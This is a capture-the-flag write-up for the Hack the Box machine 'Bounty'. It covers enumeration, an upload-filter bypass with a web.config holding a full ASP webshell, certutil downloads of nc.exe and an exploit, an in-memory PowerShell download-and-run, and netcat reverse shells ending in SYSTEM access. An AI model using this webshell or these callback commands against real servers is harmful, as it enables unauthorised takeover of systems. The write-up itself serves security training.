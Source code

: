 ```yaml
---
title: Bounty
tags: windows
description: Write-up for Hack the Box - Bounty
---
```


![image](assets/79369796-888ee000-7f1f-11ea-9fb0-30af4d5aff32.png)

## Overview

Bounty is a Windows box running IIS and ASP.NET. There is a web page that only allowed image files to be uploaded but I was able to bypass the file restriction by uploading a web.config with embedded asp code in order to get the initial foothold. Running Sherlock I determined that it was vulnerable to MS15-051 exploits improper object handling in the win32k.sys kernel mode driver to get a shell as 'nt authority/system'.

## Enumeration

**Software**

* Microsoft Windows Server 2008 R2 Datacenter
* Microsoft IIS 7.5

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.93 -oN /mnt/data/boxes/bounty/_full_tcp_nmap.txt 
```
* 80/tcp - http

**Directory/File Brute Force**

```
gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx -t 35
```

> The nmap scan shows this is a Windows server running IIS which typically run ASP.NET pages (asp/aspx). This isn't always the case but I decided to start by specifying those two extensions.

![image](assets/80209534-41c87680-8600-11ea-96c7-b023ce0a293a.png)

* /UploadedFiles/
* /transfer.aspx

## Steps (User)

The gobuster scan provided two results: transfer.aspx and Uploadedfiles. The first provided a mechanism to upload files and the second appeared to be where those files are uploaded to. Starting with the transfer page; image files can be uploaded but I was not able to upload .asp, .aspx, .cer, .asa, .asax...

![image](assets/80257645-64ce4700-864f-11ea-9912-97bc0b4e637d.png)

I was able to view the philociraptor image that was uploaded.

![image](assets/80257707-84fe0600-864f-11ea-8fb2-931a34a634a0.png)

After an internet search I came across an article by [Soroush](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) which showed how to use the web.config file to run asp classic code. I combined Soroush's template with the one found [here](https://github.com/tennc/webshell/blob/master/asp/webshell.asp) to create the web.config. The web.config now had asp code that would allow me to run commands.

> Web.config is a configuration file that is used to customize the way a site or directory behaves on a server

**web.config**

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>

<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>

<HTML>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>
</HTML>
```

I uploaded the modified config file via the transfer.aspx page and browsed to http://10.10.10.93/uploadedfiles/web.config

![image](assets/80321152-e60d1180-87e8-11ea-85c5-954ab115548a.png)

> I had to repeat the upload multiple times as the file kept getting removed. To streamline this process I captured the file upload so I could easily rerun the web request to upload the file. Additional steps needed to execute commands via the webshell once it was uploaded were also done this way.

Since I I now had command execution, I prepared my machine to transfer files by starting a python http server and started a netcat listener (rlwrap nc -lvnp 4200)

> Note: rlwrap fixes the arrow key functionality for windows reverse shells.

```
cp ~/tools/windows-binaries/nc.exe .
python3 -m http.server 80
```

Via the webshell, the certutil command was used to copy the file http to the target box. I copied it to the c:\windows\temp folder to prevent it from being automatically removed. 

```
certutil -urlcache -split -f http://10.10.14.22/nc.exe c:\windows\temp\nc.exe
```

With netcat on the box I was able to run a command to create a reverse shell.

```
c:\windows\temp\nc.exe -e cmd 10.10.14.22 4200
```

![image](assets/80321650-b06a2780-87ec-11ea-99bd-b84a6dc0351f.png)


## Steps (root/system)

Not seeing any hotfixes applied after running sysinfo I proceeded to run sherlock to look for exploits. First I copied sherlock to my working directory.

```
cp ~/tools/Sherlock/Sherlock.ps1 .
```

I used Powershell Invoke-Expression (IEX) to run sherlock in memory, executing Find-AllVuns function

```
powershell -nop -exec bypass -c "iex (new-object net.webclient).downloadstring('http://10.10.14.22/Sherlock.ps1');Find-AllVulns"
```

![image](assets/80321918-2bccd880-87ef-11ea-996b-3ba58f7fcb49.png)


This box appeared to be vulnerable to MS15-051 which can be downloaded from here https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051-KB3045171.zip

> This may go without saying but use caution when downloading/using exploits from sites like this where you can't view the source code to see what it's doing.

ms15-051x64.exe was extracted to my working directory and copied to the target via the python http server.

```
python3 -m http.server 80
```

Certutil was used to download ms15-051x64.exe to the c:\windows\temp directory.

```
certutil -urlcache -split -f http://10.10.14.22/ms15-051x64.exe c:\windows\temp\ms15-051x64.exe
```

I started a netcat listener on my box, specifiying a different port (rlwrap nc -lvnp 4201). 

```
rlwrap nc -lvnp 4201
```

With the exploit on the target system I used it to create a reverse shell and received a callback as user 'nt authority\system'.

```
c:\windows\temp\ms15-051x64.exe -e cmd.exe 10.10.14.16 4201
```

![image](assets/80322013-de9d3680-87ef-11ea-9e1f-5bd8c1634778.png)
